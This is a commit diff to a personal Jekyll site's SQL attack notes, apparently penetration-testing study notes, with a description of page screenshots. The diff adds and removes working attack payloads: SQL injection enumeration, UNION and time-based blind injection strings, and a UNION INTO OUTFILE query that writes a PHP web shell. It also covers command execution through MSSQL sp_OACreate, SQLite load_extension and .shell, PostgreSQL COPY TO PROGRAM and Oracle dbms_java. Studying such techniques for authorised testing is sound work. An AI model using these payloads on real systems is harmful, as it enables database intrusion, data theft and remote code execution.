

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/SQL.md, in a window 1280 px wide and 1400 px high, scrolled down 652 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1508 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated SQL notes

```diff
--- a/markdown/SQL.md
+++ b/markdown/SQL.md
@@ -3,13 +3,7 @@
 pagetitle: SQL Attacks
 ---
 
-https://pentestmonkey.net/category/cheat-sheet/sql-injection
-## Enumeration/Discovery
-- General fuzzing can help, but try to think from the developer's perspective when coming up with the example query
-- Matching on numbers may not use single/double quotes at all
-	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes
-
-## MySQL
+**MySQL**
 - MariaDB is an open-source fork
 - `mysql -u {username} -p -h {host IP} -P {port}`
 - Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
@@ -17,8 +11,16 @@
 	- List all databases: `SELECT * FROM information_schema.tables;`
 	- Version: `SELECT @@version;`
 	- Current user: `SELECT system_user();`
+- MySQL RCE via SQLi
+	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
+		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
+			- `tmp` is important, because we might not have perms for `/html`
+		- Then, either LFI the new file or straight up access it if possible
+	- Can also extract users/passwords and crack hashes
+	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
 
-## MSSQL
+
+**MSSQL**
 - Database management built into Windows
 - Command-line tool `SQLCMD` allows SQL queries through cmd
 - Kali has `impacket-mssqlclient` to connect to MSSQL databases
@@ -37,41 +39,23 @@
 	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
 	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
 		- `dbo` is a table schema
+- Can also use `sp_OACreate` to execute commands
+	`EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
+- Linked servers can execute remote queries (MSSqlPwner)
 
-## SQLite
+**SQLite**
 - Use `sqlitebrowser` for viewing sqlite databases
+- Can't execute functions, but can load malicious files
+	- `SELECT load_extension('/tmp/malicious.so');`
+- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
+- Outdated versions may have RCE CVEs
 
-## PostgreSQL
+**PostgreSQL**
 - Use `psql` for to connect to PostgreSQL databases
+- Command execution with `COPY mytable TO PROGRAM 'whoami';`
+	- Requires superuser
+- Command execution with `SELECT pg_execute_server_program('id');`
+	- This won't require superuser, but will require `pg_execute_server_program`
 
-## SQL Exploitation
-- Techniques:
-	- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
-	- Can use `IN` to inject arbitrary second command:
-		- `' OR 1=1 IN (SELECT version()) -- //`
-		- `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
-- Enumerating tables
-	- `' UNION SELECT table_name FROM information_schema.tables -- //`
-	- `' UNION SELECT column_name FROM information_schema.columns WHERE table='{table_name} -- //`
-- UNION-based Payloads
-	- UNION query must include same number of columns as original
-		- To find number of columns, use ORDER BY
-			- `' ORDER BY 1 -- //`
-			- Orders results by a specific column, so it will fail when selected column doesn't exist (iterate through column numbers to find max columns)
-		- Can also do `' UNION SELECT null, null, null, ...` until no error
-		- If we make the original input invalid, then pass a valid union select, we can see where each piece of data ends up
-			- `9999 union select 1,2,3,4,5`
-	- Data types need to be compatible between each column
-	- E.g. `$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["input"]."%'";`
-		- Used `' ORDER BY 5 -- //` and `' ORDER BY 6 -- //` to determine 5 columns
-		- Thus payload becomes `%' UNION SELECT null, null, database(), user(), @@version -- //`, filling unneeded columns (including ID column 1) with null
-- Blind injection
-	- Can use booleans alongside sleep commands to verify existence of data/characters
-		- `' AND IF (1=1, sleep(3), 'false') -- //`
-- MySQL RCE via SQLi
-	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
-		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
-			- `tmp` is important, because we might not have perms for `/html`
-		- Then, either LFI the new file or straight up access it if possible
-	- Can also extract users/passwords and crack hashes
-	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
+**Oracle**
+- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
```
Also changed, not shown: webappnotes/SQLi.md (+17 -1 lines).
